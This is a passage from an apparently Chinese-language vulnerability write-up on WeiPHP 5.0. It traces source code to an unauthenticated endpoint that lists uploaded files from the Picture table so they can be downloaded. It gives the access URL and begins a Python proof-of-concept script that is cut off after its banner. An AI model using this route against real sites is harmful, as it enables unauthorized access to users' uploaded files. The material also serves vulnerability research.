 ```
$id = $this->insertGetId($data);
```

我们查看一下数据库的这个数据表，可以发现之前所上传的数据全部缓存在这个表里了

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ibfBLh7r3zoba2w2xJD90jcTnHPDViatp775vIMMtEL2BNed1a67Kx0Qg/640?wx_fmt=png)

我们现在则需要找到不需要登录的地方来获得这些数据，所以可以全局去查找调用了这个 Picture 表的地方

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ib0qkeSbCM3CLiciatLupEVQibUia4jiaPtpQ7j9kq3nbiau0ia4u11jpUF14Xw/640?wx_fmt=png)

找到一处可以利用的地方

```
function user_pics()
{
       $map['wpid'] = get_wpid();
       $picList = M('Picture')->where(wp_where($map))
           ->order('id desc')
           ->select();
       $this->assign('picList', $picList);
       exit($this->fetch());
  }
```

跟进 **get_wpid** 函数  

```
function get_wpid($wpid = '')
{
   if (defined('WPID')) {
       return WPID;
  } else {
       return 0;
  }
}
```

查看 WPID 的定义，文件位置在 **config\weiphp_define.php**

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ibT1ibmnSGShdrtDjnicOicJ5SXZDrUY92icG7Z5Z3xzvAWvcMpp1dnxadQw/640?wx_fmt=png)

定义值默认为 1，所以这里调用则可以获得数据库中 Pictrue 表的内容，间接的知道了文件内容以及文件名

访问地址: **http://webphp/public/index.php/home/file/user_pids**

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ibw8iawsIC2oicCz0BbV6c3iapOYGYPW4xuFJRjKjWvpwBWEMGb7DOnuoiaQ/640?wx_fmt=png)

可以看到文件名，根据 url 地址访问选择下载即可  

漏洞利用 POC
--------

```
import requests
import random
import re


def title():
   print('+------------------------------------------')
   print('+ \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
   print('+ \033[34mVersion: Weiphp5.0                                               \033[0m')
   print('+ \033[36m使用格式: python3 poc.py                                           \033[0m')
   print('+ \033[36mUrl   >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
   print('+------------------------------------------')

def POC_1(target_url):
```